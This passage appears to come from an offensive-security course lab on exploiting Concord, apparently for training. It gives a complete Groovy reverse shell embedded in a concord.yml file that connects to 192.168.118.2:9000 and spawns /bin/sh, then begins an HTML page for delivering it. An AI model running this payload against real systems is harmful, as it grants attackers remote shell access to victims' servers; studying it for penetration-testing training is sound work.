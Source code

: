 Once that is set up, we need to add a body with a script. We'll use a _YML HereDoc_[8](https://portal.offsec.com/courses/web-300-687/learning/concord-authentication-bypass-to-rce-32492/wrapping-up-32525/wrapping-up-32575#fn-local_id_395-8) for this so we don't have to write a one-liner. We'll use a common groovy reverse shell as our script and format it for readability.[9](https://portal.offsec.com/courses/web-300-687/learning/concord-authentication-bypass-to-rce-32492/wrapping-up-32525/wrapping-up-32575#fn-local_id_395-9)

```
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.118.2";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
```

> Listing 12 - Building Groovy Payload - Reverse Shell

This will become the concord.yml file that we will send to the server. We'll save this payload for later. Next, we need to create the delivery mechanism. As mentioned earlier, we will create a website that will send this payload. We'll start with an empty HTML page that contains a single _script_ tag.

```
<html>
	<head>
		<script>
		</script>
	</head>
	<body>
	</body>
</html>
```
